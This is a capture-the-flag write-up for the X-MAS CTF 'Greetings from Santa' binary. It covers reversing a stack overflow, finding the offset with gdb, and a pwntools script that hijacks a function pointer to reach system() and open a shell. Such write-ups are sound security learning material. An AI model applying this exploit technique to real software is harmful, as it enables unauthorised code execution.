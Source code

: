 ## XMASCTF: Greetings from Santa
##### *tl;dr: buffer overflow to control instruction pointer, call eax*
#### This was an interesting challenge, although I didn't solve any of these challenges during the duration of the CTF, which was around christmas time last year, I'm hosting them locally in hopes of being able to learn new things. We are given only the challenge binary, so first thing to do is to check the properties and security measures:
```
$ file chall 
chall: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=5c2946ef557ee008fc18faeea0796165b43b8234, stripped

$ checksec chall
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
#### We're dealing with a stripped binary, which means that it's a bit harder to disassemble and reverse engineer compared to non-stripped ones, but nonetheless we can still do it. To disassemble and debug the binary we'll be using gdb and decompile it using ghidra then rename some functions to get a clearer understanding on it. 
```c
uint main(void)

{
  char buffer [64];
  undefined **local_14 [2];
  undefined *local_c;
  
  local_c = &stack0x00000004;
  alarm(0x3c);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_14[0] = &PTR_print_name_0804888c;
  printf("Greetings from Santa! Wanna talk? ");
  move_0x08048898();
  fgets(buffer,0x200,stdin);
  if (buffer[0] == 'y') {
    name_vuln(local_14);
  }
  return (uint)(buffer[0] != 'y');
}
```
#### The main function decompilation shows some interesting things, like how the binary is set with alarm and the setvbuf calls, after which prints out the first prompt we get. Afterwards, receives user input and the first character must be a 'y' to proceed to the next function. But we'd like to take a note of the function called after the printf, `move_0x08048898`. Let's take a loot at its assembly code:
```
   0x08048760:	push   ebp
   0x08048761:	mov    ebp,esp
   0x08048763:	sub    esp,0x10
   0x08048766:	mov    eax,0x8048898
   0x0804876b:	mov    DWORD PTR [ebp-0x4],eax
   0x0804876e:	nop
   0x0804876f:	leave  
   0x08048770:	ret    
```
#### We see that what seems to be a function address gets moved to eax register. But what could this be? We'll take a look at that specific address in the disassembled .text segment in gdb.
```
gdb-peda$ telescope 0x8048898
0000| 0x8048898 --> 0x8048772 (push   ebp)
0004| 0x804889c --> 0x8049ed8 --> 0xf7e9a410 (<_ZN10__cxxabiv117__class_type_infoD2Ev>:	push   ebx)
0008| 0x80488a0 --> 0x80488a4 ("7Greeter")
0012| 0x80488a4 ("7Greeter")
0016| 0x80488a8 ("eter")
0020| 0x80488ac --> 0x0 
0024| 0x80488b0 --> 0x8049ed8 --> 0xf7e9a410 (<_ZN10__cxxabiv117__class_type_infoD2Ev>:	push   ebx)
0028| 0x80488b4 --> 0x80488b8 ("15CommandExecutor")
```
#### Interesting, the first 4 bytes from the 0x8048898 seems to be leading to another address somewhere in the code. Let's search for the address again within the disassembled .text segment:
```
   0x08048772:	push   ebp
   0x08048773:	mov    ebp,esp
   0x08048775:	sub    esp,0x8
   0x08048778:	sub    esp,0xc
   0x0804877b:	push   DWORD PTR [ebp+0xc]
   0x0804877e:	call   0x8048500 <system@plt>
   0x08048783:	add    esp,0x10
   0x08048786:	nop
   0x08048787:	leave  
   0x08048788:	ret   
```
#### There's our win function right there! Basically, the `move_0x08048898` function loads an address which points to another address (which is the function that calls system) into the eax register. With that all cleared, let's take a look at the name_vuln function which gets called after we supply our input. Like the main function, it prints out a prompt then gets our user input. But we see something weird in the disassembly:
```
   0x0804874a:	mov    eax,DWORD PTR [eax]
   0x0804874c:	mov    eax,DWORD PTR [eax]
   0x0804874e:	sub    esp,0x8
   0x08048751:	lea    edx,[ebp-0x6c]
   0x08048754:	push   edx
   0x08048755:	push   DWORD PTR [ebp+0x8]
   0x08048758:	call   eax
```
#### It dereferences what is in the eax register twice, and then proceeds to perform a call eax after. That's what we're gonna exploit! We're gonna take advantage of the `move_0x08048898` function, for it to be dereferenced twice, then we'll be able to execute the system function. So what we'll focus on now is controlling the eax register. Fire up gdb, and let's figure out which offset we can control eax with. 
```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

gdb-peda$ r
Greetings from Santa! Wanna talk? yAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
What is your name? ARIES
[...]
Stopped reason: SIGSEGV
0x0804874c in ?? ()

gdb-peda$ x/ $eax
0x64414148:	Cannot access memory at address 0x64414148

gdb-peda$ pattern offset 0x64414148
1681998152 found at offset: 63
```
## Exploitation
#### Now that we have what we need, we move on to the fun parts. So our plan for this exploit is to overflow the buffer till we control eax, but we keep in mind that the first character must be 'y'. After which, we move the address of the `move_0x08048898` function into eax, so it'll get dereferenced twice, cause system executed, enjoy our interactive shell then cat the flag!
##### exploit.py
```python 
from pwn import *

#: Connect to challenge server
p = process('./chall')
print(p.recv())

#: Exploit code
prompt = 'y'
offset = 'A' * 63
eax = p32(0x8048898)
exploit = prompt + offset + eax

#: Send payload
p.sendline(exploit)
print(p.recv())
p.interactive()
```
#### Run the script, then cat flag!
```
$ python exploit.py
Greetings from Santa! Wanna talk? 
What is your name? 
[*] Switching to interactive mode
$ cat flag
X-MAS{6r3371n65_fr0m_5y573m_700}
```


